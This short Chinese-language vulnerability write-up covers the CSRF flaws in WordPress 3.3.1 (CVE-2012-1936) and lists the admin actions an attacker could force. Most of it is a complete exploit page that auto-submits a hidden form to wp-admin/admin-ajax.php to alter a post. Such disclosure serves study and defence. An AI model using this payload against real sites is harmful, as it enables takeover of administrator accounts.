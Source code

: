 ## [Wordpress 3.3.1 Multiple CSRF Vulnerabilities](https://www.exploit-db.com/exploits/18791/)

该漏洞是由[Ivano Binetti](http://www.ivanobinetti.com)在2012年3月19号发现的，影响了[WordPress 3.3.1版本 ](http://wordpress.org/wordpress-3.3.1.zip)，CVE编号CVE-2012-1936。WordPress是众所周知的博客平台，该漏洞可以允许攻击者修改某个Post的标题，添加管理权限用户以及操作用户账户，包括但不限于删除评论、修改头像等等。具体的列表如下:
 - Add Admin/User
 - Delete Admin/User
 - Approve comment
 - Unapprove comment
 - Delete comment
 - Change background image
 - Insert custom header image
 - Change site title
 - Change administrator's email
 - Change Wordpress Address
 - Change Site Address

那么这个漏洞实际上就是攻击者引导用户先进入目标的WordPress，然后点击其钓鱼站点上的某个按钮，该按钮实际上是表单提交按钮，其会触发表单的提交工作，核心的Exploit代码为:
```
 <html>
 <body onload="javascript:document.forms[0].submit()">
 <H2>CSRF Exploit to change post title</H2>
 <form method="POST" name="form0" action="http://<wordpress_ip>:80/wp-admin/admin-ajax.php">
 <input type="hidden" name="post_title" value="hackedtitle"/>
 <input type="hidden" name="post_name" value="hackedtitle"/>
 <input type="hidden" name="mm" value="03"/>
 <input type="hidden" name="jj" value="16"/>
 <input type="hidden" name="aa" value="2012"/>
 <input type="hidden" name="hh" value=""/>
 <input type="hidden" name="mn" value=""/>
 <input type="hidden" name="ss" value=""/>
 <input type="hidden" name="post_author" value="1"/>
 <input type="hidden" name="post_password" value=""/>
 <input type="hidden" name="post_category%5B%5D" value="0"/>
 <input type="hidden" name="post_category%5B%5D" value="1"/>
 <input type="hidden" name="tax_input%5Bpost_tag%5D" value=""/>
 <input type="hidden" name="comment_status" value="open"/>
 <input type="hidden" name="ping_status" value="open"/>
 <input type="hidden" name="_status" value="publish"/>
 <input type="hidden" name="post_format" value="0"/>
 <input type="hidden" name="_inline_edit" value="<sniffed_value>"/>
 <input type="hidden" name="post_view" value="list"/>
 <input type="hidden" name="screen" value="edit-post"/>
 <input type="hidden" name="action" value="inline-save"/>
 <input type="hidden" name="post_type" value="post"/>
 <input type="hidden" name="post_ID" value="1"/>
 <input type="hidden" name="edit_date" value="true"/>
 <input type="hidden" name="post_status" value="all"/>
 </form>
 </body>
 </html>
```
